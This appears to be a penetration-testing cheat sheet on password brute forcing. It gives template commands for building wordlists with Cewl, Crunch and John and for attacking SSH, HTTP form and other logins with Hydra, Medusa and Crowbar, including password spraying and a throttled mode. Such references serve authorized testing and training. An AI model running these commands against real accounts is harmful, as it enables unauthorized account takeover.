 # Bruteforce

## Generate wordlist

### Local

* **Seclists:** [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

### Cewl

```
cewl <url> -m <min length> -w <file>.txt       #generate from login page
cewl <url> -m <min length> -e -w <file>.txt    #harvest emails
```

### Crunch

```
crunch <min-len> <max-len> -f </path/to/charset>.lst -o <wordlist.txt>
crunch <min-len> <max-len> "<accepted chars>" -o <wordlist.txt> 
crunch <min-len> <max-len> -t <pattern> -o <wordlist.txt> -s <start string>
```

Pattern syntax:

* **@** will insert lower case characters
* **,**   will insert upper case characters
* **%**  will insert numbers
* **^**   will insert symbols

Symbols can be combined with static strings.

When specifying a charset the order MUST be lowercase chars, uppercase chars, numbers and symbols.

## Improve wordlist quality

### John

```
john --wordlist=<file>.txt --rules=Wordlist --stdout > <file>.txt
```

## Bruteforce

### Medusa

```
medusa -h <target ip> -u <target username> -P <path to wordlist> -M <mode> -m DIR:/<page>
```

### Crowbar

```
crowbar -b <protocol> -s <target ip> -u <target user> -C <path to wordlist>.txt -n <threads>
```

### Hydra

```
hydra -vV -l <user> -P <path to wordlist>.txt <protocol>://<ip> -s <port> -e sn -t 8
hydra -vV -l <user> -P <path to wordlist>.txt <protocol>://<ip> -s <port> -o <file>.txt
hydra -vV -L <userlist>.txt -P <path to wordlist>.txt <protocol>://<ip> -s <port>
```

#### Post form

```
hydra <ip> -s <port> http-form-post "<relative form url>:<user form field>=^USER^&<password form field>=^PASS^:F=<invalid login string>" -L <file>.txt -P <file>.txt -vV -f
hydra <ip> -s <port> http-form-post "<relative form url>:<user form field>=<username>&<password form field>=^PASS^:F=<invalid login string>" -l <username> -P <file>.txt -vV -f
```

Slow mode

```
hydra <ip> -s <port> http-form-post "<relative form url>:<user form field>=<username>&<password form field>=^PASS^:F=<invalid login string>" -l <username> -P <file>.txt -vV -f -t 2 -W 5
```

#### Password spraying

```
hydra -l <user> -P <path to wordlist>.txt -M <hostfile>.txt <protocol> -vV -F
```

#### On SSL

```
hydra -vV -l <user> -S -P <path to wordlist>.txt <protocol>://<ip> -s <port>
```

#### Generate passwords

```
hydra -vV -l <user> -x<min>:<max>:<charset> <protocol>://<ip> -s <port>
hydra -vV -l <user> -x4:8:Aa1 -y <protocol>://<url>    #generate alphanumeric passwords
```

Charset rules (to be used with `-y` option) :

* **A** stands for A-Z
* **a** stands for a-z
* **1** stands for 0-9
* for symbols append them to the charset i.e. `a1/.` will generate passwords with alphanumeric lowercase characters plus dot and dash

#### Modules

```
hydra -h
hydra <module> -U | less
hydra <ip> <module> <additional args> -l <target user> -P <filelist>.txt -vV -f
```






